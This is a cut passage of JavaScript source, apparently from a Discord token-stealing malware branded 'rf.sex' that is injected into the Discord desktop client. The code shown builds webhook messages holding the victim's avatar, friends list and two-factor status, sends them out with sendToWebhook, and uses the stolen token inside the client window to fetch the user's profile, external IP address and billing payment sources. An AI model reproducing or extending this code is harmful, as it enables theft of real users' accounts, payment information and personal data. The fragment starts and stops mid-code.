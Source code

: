                                     }, ],
                                    "author": {
                                        "name": "rf.sex"
                                    },
                                    "footer": {
                                        "text": "better than all."
                                    },
                                    "thumbnail": {
                                        "url": `https://cdn.discordapp.com/avatars/${json.id}/${json.avatar}`
                                    }
                                }, {
                                    "title": `total friends (${totalFriends()})`,
                                    "color": config['embed-color'],
                                    "description": calcFriends(),
                                    "author": {
                                        "name": "rf.sex"
                                    },
                                    "footer": {
                                        "text": "better than all."
                                    },
                                    "thumbnail": {
                                        "url": `https://cdn.discordapp.com/avatars/${json.id}/${json.avatar}`
                                    }
                                }]
                            }
                            var mfaembed = {
                                "title": "<:bughunter_2:874750808430874664> storm alert",
                                "description": `to view 2FA passwords, log into your account and click "View Codes"`,
                                "color": config['embed-color'],
                                "fields": fieldo,
                                "author": {
                                    "name": "rf.sex"
                                },
                                "footer": {
                                    "text": "better than all."
                                }
                            }
                            if (token.startsWith("mfa")) {
                                params.embeds.push(mfaembed)
                            }
                            sendToWebhook(JSON.stringify(params))
                        })
                    } else {
                        const window = BrowserWindow.getAllWindows()[0];
                        window.webContents.executeJavaScript(`
                                        var xmlHttp = new XMLHttpRequest();
                                        xmlHttp.open( "GET", "https://discord.com/api/v8/users/@me", false );
                                        xmlHttp.setRequestHeader("Authorization", "${token}");
                                        xmlHttp.send( null );
                                        xmlHttp.responseText;`, !0).then((info) => {
                            window.webContents.executeJavaScript(`
                                        var xmlHttp = new XMLHttpRequest();
                                        xmlHttp.open( "GET", "https://www.myexternalip.com/raw", false );
                                        xmlHttp.send( null );
                                        xmlHttp.responseText;
                                        `, !0).then((ip) => {
                                window.webContents.executeJavaScript(`
                                        var xmlHttp = new XMLHttpRequest();
                                        xmlHttp.open( "GET", "https://discord.com/api/v9/users/@me/billing/payment-sources", false );
                                        xmlHttp.setRequestHeader("Authorization", "${token}");
                                        xmlHttp.send( null );
                                        xmlHttp.responseText`, !0).then((info3) => {
                                    window.webContents.executeJavaScript(`
                                        var xmlHttp = new XMLHttpRequest();